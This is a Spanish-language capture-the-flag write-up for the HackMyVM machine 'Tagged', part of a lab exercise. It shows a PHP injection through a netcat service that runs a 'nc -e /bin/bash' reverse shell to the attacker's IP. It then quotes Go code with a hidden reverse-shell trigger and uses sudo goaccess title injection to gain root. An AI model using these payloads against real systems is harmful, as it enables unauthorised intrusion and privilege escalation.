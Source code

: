 ```yaml
---
layout: post
title: Tagged - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/tagged/tagged.png#center)

## Reconocimiento

Como es de esperar, lo primero es realizar una enumeración de los puertos abiertos en la máquina.

```
$ sudo nmap 192.168.1.18 -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-26 09:15 UTC
Nmap scan report for 192.168.1.18
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7746/tcp open  unknown

```

**Nota:** El proceso ejecutandose en el puerto **7746** puede dejar de funcionar por culpa de nmap. Para solucionar esto basta con reiniciar la máquina.

### 7746

Probando a conectarme con "netcat" en el puerto 7746, encuentro que nos pide una entrada de usuario. Aquí podemos escribir lo que queramos y nos daremos cuenta que se escribe en "http://tagged.hmv/index.php".

```
$ nc 192.168.1.19 7746
>test
>
```

```
$ curl http://192.168.1.19/index.php
<h1>TAGZ</h1>
<pre>test</pre>
```

Sabiendo esto, puedo conseguir una "reverse shell" en el servidor.

## Explotación

Me vuelvo a conectar al puerto 7746 pero ahora introduzco la siguiente entrada.

```
$ nc 192.168.1.19 7746
><?php system('nc -e /bin/bash 192.168.1.79 1234');?>
>
```

Una vez hecho esto, creo un "listener" en el puerto 1234 y ejecuto el curl

```
$ curl http://192.168.1.19/index.php
```

Nada mas ejecutarlo compruebo que se ha realizado la conexión y tengo shell como www-data.

```
$  nc -lvnp 1234                     
Connection from 192.168.1.19:59908
whoami
www-data
```

## Escalado de privilegios

Al conectarme como www-data veo un archivo "magiccode.go" en /var/www/html. Este parece ser el código fuente del programa que se está ejecutando en el puerto 7746. Lo más interesante es que si la entrada del usuario es "Deva" realiza una "reverse shell" a sí mismo en el puerto 7777.

```
[...]
func main() {
        ln, _ := net.Listen("tcp", ":7746")
        for {
                conn, _ := ln.Accept()
                go receiveData(conn)
                go sendData(conn, "")
        }
}
[...]
OMG := "Deva"
    if message == OMG {
        cmd := exec.Command("nc","-e","/bin/bash","127.0.0.1","7777")
        _ = cmd.Run()
        }
[...]
```

Conociendo esto, creo un "listener" como www-data en el puerto 7777 del servidor y desde mi máquina me vuelvo a conectar al puerto 7746 para enviar "Deva".

```
nc 192.168.1.19 7746
>Deva
>
```

Nada más enviarlo, obtengo una shell como Shyla.

```
www-data@tagged:~/html$ nc -lvnp 7777
listening on [any] 7777 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 52828
whoami
shyla
```

Ahora siendo Shyla, compruebo que puede ejecutar varios comandos como distintos usuarios (Uma y Root).

```
shyla@tagged:~$ sudo -l
Matching Defaults entries for shyla on tagged:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User shyla may run the following commands on tagged:
    (uma) NOPASSWD: /usr/bin/goaccess
    (ALL) NOPASSWD: /usr/bin/php /var/www/html/report.php
```

[Goaccess](https://goaccess.io/) -> "GoAccess fue diseñado para ser un analizador de registros rápido basado en terminales."

El objetivo es llegar a ser root, lo cual se puede obtener ejecutando php como root robre report.php. Este archivo le pertenece a Uma, por lo que para resolver la máquina es necesario modificar el archivo report.php mediante goaccess y luego ejecutarlo como root. Pues manos a la obra.

- Lo primero es crear un archivo log que goaccess pueda leer
- Despues, utilizo el parametro "--html-report-title" para modificar el título y pasarle el comando bash.
- Al ejecutarlo, obtengo una shell como root.

```
shyla@tagged:~$ touch a.log
shyla@tagged:~$ sudo -u uma goaccess -f a.log -o /var/www/html/report.html --html-report-title="<?php system('bash');?>"
shyla@tagged:~$ sudo /usr/bin/php /var/www/html/report.php
root@tagged:/home/shyla# id
uid=0(root) gid=0(root) grupos=0(root)
root@tagged:/home/shyla# :)

```

Muchas gracias a **Sml** por esta máquina.
